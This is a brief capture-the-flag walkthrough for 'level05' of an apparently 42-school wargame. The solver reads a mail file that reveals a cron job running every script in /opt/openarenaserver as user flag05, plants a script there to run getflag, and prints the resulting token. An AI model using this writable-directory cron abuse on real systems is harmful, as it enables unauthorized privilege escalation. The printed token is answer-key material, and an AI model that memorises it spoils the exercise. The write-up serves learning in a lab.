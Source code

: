 # First step

When started level05, we have a 'you have new mail' message in the terminal.

```shell
You have new mail.
$>
```

So we can check to /var/mail, and we have a level05 file.
```shell
$> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05  

$> cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

We can know every 2 minutes, we run every file in the folder /opt/openarenaserver/ and delete it.  

# Second step

We can create a script file in the folder /opt/openarenaserver/.  

```shell
$> echo 'getflag > /tmp/flag' > /opt/openarenaserver/flag.sh && sleep 120

$> cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```